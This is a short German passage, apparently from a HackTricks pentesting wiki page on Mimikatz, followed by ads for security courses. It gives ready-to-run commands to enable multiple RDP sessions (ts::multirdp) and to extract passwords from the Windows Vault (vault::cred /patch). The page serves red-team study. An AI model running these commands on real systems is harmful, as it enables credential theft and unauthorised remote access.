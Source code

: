### Terminaldienste

- **TS::MultiRDP**: Erlaubt mehrere RDP-Sitzungen.
- `mimikatz "ts::multirdp" exit`

- **TS::Sessions**: Listet TS/RDP-Sitzungen auf.
- *Kein spezifischer Befehl für TS::Sessions im ursprünglichen Kontext angegeben.*

### Vault

- Extrahiert Passwörter aus dem Windows Vault.
- `mimikatz "vault::cred /patch" exit`


<figure><img src="/.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

Vertiefen Sie Ihr Fachwissen in **Mobiler Sicherheit** mit der 8kSec Academy. Meistern Sie die Sicherheit von iOS und Android durch unsere selbstgesteuerten Kurse und erhalten Sie ein Zertifikat:

{% embed url="https://academy.8ksec.io/" %}

{% hint style="success" %}
Lernen & üben Sie AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Lernen & üben Sie GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details><summary>Unterstützen Sie HackTricks</summary></details>
{% endhint %}
